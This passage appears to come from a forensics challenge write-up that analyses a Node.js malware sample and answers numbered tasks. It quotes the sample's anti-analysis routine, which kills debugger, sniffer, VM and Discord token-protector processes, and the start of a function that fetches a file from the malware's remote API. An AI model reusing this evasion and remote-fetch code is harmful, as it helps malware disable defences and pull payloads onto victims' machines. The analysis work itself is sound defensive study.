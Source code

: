        const tasks = execSync('tasklist');
        [
            'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
            'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
            'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
            'vmwareservice', 'vmwaretray', 'discordtokenprotector'
        ].forEach((task) => {
            if(tasks.includes(task))
            execSync(`taskkill /f /im ${task}.exe`);
        });
    };
    

First it checks that the total memory is greater than 2GB and that the
hostname isn’t in a specific list, exiting if either check fails. Then it
loops over a list of forensics tools and if any are in the tasklist, it tries
to kill that process.

The hostname that starts with “arch” is “archibaldpc” (Task 9). The process
check does check for one process twice. To find this I’ll use some Bash foo:

    
    
    oxdf@hacky$ echo "'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
            'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
            'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
            'vmwareservice', 'vmwaretray', 'discordtokenprotector'" |
    > tr ', ' '\n' | grep . | sort | uniq -c | grep '      2'
          2 'vmwaretray'
    

It’s `echo`ing the list and using `tr` to replace `, ` with a newline, then `grep` to get only non-empty lines, and then `sort | uniq -c` to get a count of each value, and then `grep` to get the one with two. So the double check is `vmwaretray` (Task 10)

#### checkCmdInstallation

Next the first block calls `checkCmdInstallation`:

    
    
    async function checkCmdInstallation() {
        return await new Promise(async(resolve) => {
            if(!existsSync('C:\\Windows\\system32\\cmd.exe')) {
                const request = await fetch(options.api + 'cmd-file', {
                    method: 'GET',
                    headers: {
                        'Content-Type': 'application/json',
                        'duvet_user': options?.user_id
                    }
                });
        